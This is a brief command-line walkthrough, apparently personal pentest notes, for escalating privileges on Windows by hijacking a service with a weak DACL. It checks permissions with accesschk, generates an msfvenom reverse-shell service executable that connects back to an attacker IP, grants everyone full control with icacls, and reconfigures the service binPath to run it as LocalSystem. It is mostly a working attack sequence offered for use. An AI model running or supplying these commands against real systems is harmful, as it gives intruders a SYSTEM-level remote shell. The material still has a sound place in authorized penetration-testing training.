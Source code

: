 To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite (https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

	accesschk64.exe -qlc [service]

After finding the service , create a malicious service executable

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=[Attacker IP] LPORT=[Attacker port] -f exe-service -o rev-svc.exe

Upload the malicious executable and mark it as executable to all users

	icacls [malicious exe] /grant EVERYONE:f

Set the service executable to the vulnerable service to be the malicious exe, with system as the account to run the service

	sc config [service] binPath= [path to maliciouse exe] obj= localSystem

Finaly, after setting up a listener, restart the service

	sc stop [service]
	sc start [service]
